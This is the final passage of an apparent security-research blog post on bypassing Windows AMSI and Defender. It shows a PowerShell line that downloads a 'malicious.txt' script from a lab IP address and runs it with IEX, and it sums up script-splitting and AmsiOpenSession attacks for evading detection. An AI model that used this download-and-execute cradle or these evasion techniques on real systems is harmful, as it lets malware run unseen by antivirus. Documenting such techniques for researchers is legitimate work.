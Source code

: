 ```
$PowerShell.Commands.Clear()
$PowerShell.AddScript({(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/malicious.txt")|IEX}).Invoke();
```

Let's test it. Very nice!

![image19.png]({{site.baseurl}}/_posts/images/image19.png)



## Conclusion

Our imaginary script kiddie has made a little bit of progress since their
time of just modifying a short AMSI bypass tweet.

We demonstrated a script-splitting technique which reduces Windows
Defender's ability to make connections between different part of a script.

We also demonstrated a way to bypass what could be a potential future
mitigation to the script-splitting technique.

Finally, we showed how to succesfully attack the AmsiOpenSession function,
showing how to tackle a significant hurdle in the implementation of a
bypass.

I hope other security researchers will find some inspiration to dig
further, come up with new ideas, and share with the community.
